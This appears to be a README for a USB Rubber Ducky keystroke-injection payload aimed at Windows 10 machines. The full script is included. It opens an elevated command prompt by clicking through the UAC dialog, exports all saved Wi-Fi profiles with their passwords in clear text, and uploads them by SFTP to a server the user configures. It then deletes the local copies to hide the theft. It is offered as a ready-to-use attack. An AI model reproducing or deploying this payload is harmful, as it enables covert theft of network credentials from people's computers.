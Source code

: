 ## Change the following things;
* "**SFTPpass**" : Your **Sftp password**
* "**SFTPusername**" : Your **sftp username**
* "**SFTPserver**" : Your **sftp server address**


## Succesfully tested on;
* Windows 10

## Info;
* Author : Lvc4
* Duckncoder : 1.2 
* Target : Windows 10 Machines 
* my github : [github.com/Lvc4](github.com/Lvc4) 
* Description : Connect to sftp server and uploads WLAN passwords 

```
DELAY 500
GUI r
DELAY 300
STRING cmd 
DELAY 300
CTRL-SHIFT ENTER
DELAY 300
LEFTARROW
DELAY 100
ENTER 
DELAY 300
STRING cd C:\
ENTER
DELAY 100
STRING md l 
ENTER
DELAY 100
STRING cd l && @netsh wlan export profile key=clear >nul
ENTER
DELAY 1000
STRING sftp -oPort=22 **SFTPusername**@**SFTPserver**
ENTER
DELAY 1200
STRING **SFTPpassword**
DELAY 70
ENTER
DELAY 500
STRING cd wlan
ENTER
DELAY 50
STRING mput C:\l\*.xml
ENTER
DELAY 3000
STRING bye
ENTER
DELAY 200
STRING cd ..
ENTER 
DELAY 50
STRING del "C:\l"
ENTER
DELAY 50
STRING j
ENTER
STRING exit
ENTER
```